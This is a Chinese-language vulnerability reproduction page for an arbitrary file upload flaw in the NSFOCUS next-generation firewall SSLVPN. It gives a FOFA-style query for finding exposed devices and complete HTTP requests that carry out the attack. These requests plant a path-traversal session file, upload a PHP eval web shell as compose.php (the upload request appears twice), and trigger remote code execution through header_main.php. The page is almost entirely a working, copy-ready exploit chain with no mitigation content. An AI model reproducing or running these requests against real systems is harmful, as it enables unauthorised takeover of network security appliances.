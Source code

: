 # 绿盟 NF下一代防火墙 任意文件上传漏洞

## 漏洞描述

绿盟 SSLVPN 存在任意文件上传漏洞，攻击者通过发送特殊的请求包可以获取服务器权限，进行远程命令执行

## 漏洞影响

<a-checkbox checked>绿盟 SSLVPN </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="NSFOCUS-下一代防火墙"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1658884417477-a47362c4-646d-464e-a094-9e36a53165d6.png)

出现漏洞的端口为 8081 

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=1d52ba2a11ad8a915eddab1a0e85acd9
Host: 

--1d52ba2a11ad8a915eddab1a0e85acd9
Content-Disposition: form-data; name="file"; filename="sess_82c13f359d0dd8f51c29d658a9c8ac71"

lang|s:52:"../../../../../../../../../../../../../../../../tmp/";

--1d52ba2a11ad8a915eddab1a0e85acd9--
```

![image-20230812085235711](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20230812085235711.png)

```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![image-20230812085349551](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20230812085349551.png)



```python
POST /api/v1/device/bugsInfo HTTP/1.1
Content-Type: multipart/form-data; boundary=4803b59d015026999b45993b1245f0ef
Host: 

--4803b59d015026999b45993b1245f0ef
Content-Disposition: form-data; name="file"; filename="compose.php"


<?php eval($_POST['cmd']);?>

--4803b59d015026999b45993b1245f0ef--
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1684385511983-b0ced531-df95-4ca9-a34f-f0704fe7e98d.png)

```python
POST /mail/include/header_main.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID_NF=82c13f359d0dd8f51c29d658a9c8ac71
Host:

cmd=phpinfo();
```